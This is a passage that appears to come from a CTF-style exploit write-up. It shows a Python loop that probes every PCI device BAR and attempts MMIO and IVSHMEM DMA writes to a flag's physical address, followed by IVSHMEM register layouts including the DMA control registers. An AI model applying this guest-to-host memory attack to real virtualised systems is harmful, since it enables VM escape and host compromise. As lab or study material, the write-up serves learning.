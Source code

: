 ### Enhanced in Hybrid Version:
```python
# Now auto-discovers ALL devices and tries multiple offsets
for device in discover_all_pci_devices():
    for bar in device.bars:
        # Try direct offset
        exploit_via_bar_mmio(bar['base'], bar['size'], 0, FLAG_VALUE)
        
        # Try calculated offset to flag
        if bar['base'] <= FLAG_PHYS < bar['base'] + bar['size']:
            offset = FLAG_PHYS - bar['base']
            exploit_via_bar_mmio(bar['base'], bar['size'], offset, FLAG_VALUE)
        
        # Try DMA if large BAR
        if bar['is_prefetch'] and bar['size'] >= 0x100000:
            exploit_ivshmem_dma(bar['base'], bar['size'])
```

## Common IVSHMEM Register Layouts

### Standard IVSHMEM Device:
```
BAR0 (Control):
  0x00: IVPosition (VM ID)
  0x04: Doorbell
  0x08-0x0F: Reserved
  
BAR1 (Shared Memory): 
  Directly mapped guest<->host memory
  Size: Typically 256MB-2GB
```

### IVSHMEM-v2 (with DMA):
```
BAR0 (Control):
  0x00: Control register
  0x04: Status register
  0x08: DMA source address (low)
  0x0C: DMA source address (high)
  0x10: DMA dest address (low)
  0x14: DMA dest address (high)
  0x18: DMA length
  0x1C: Reserved
  0x20: DMA control/trigger
  
BAR1 (Buffer):
  DMA staging area
  
BAR2 (Shared Memory):
  Main shared region
```
